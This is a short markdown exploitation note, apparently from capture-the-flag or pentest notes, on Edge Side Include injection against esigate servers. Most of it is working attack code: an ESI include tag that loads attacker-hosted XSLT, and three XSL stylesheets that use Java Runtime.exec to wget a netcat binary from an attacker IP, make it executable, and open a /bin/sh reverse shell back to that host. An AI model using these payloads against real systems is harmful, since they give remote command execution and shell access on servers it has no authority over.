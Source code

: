 Edge_Side_Inclusion_(ESI)

# This is related to the answer in the headers : X-Powered-By : esigate

Papers : https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/

https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/

## How to exploit ?

### RCE with XSLT injection

- Launch a listener on port 80

- In the box where you can send data, send : 
```
<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>
```
- Then, search for your data in the search bar of search url and see if you have an answer on your webserver. If so, it's time to create a reverse shell !

- Create 3 blank xml file, and 3 xsl files like these :

- wget : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.166:8000/nc -O vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- chmod : 
```<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod 777 vnc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
- shell : 
```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./vnc -e /bin/sh 10.10.14.166 9001 ]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- Change the part test.xml and test.xsl to wget, chmod and shell and send it : ```<esi:include src="http://10.10.16.131/test.xml" stylesheet="http://10.10.16.131/test.xsl"></esi:include>```
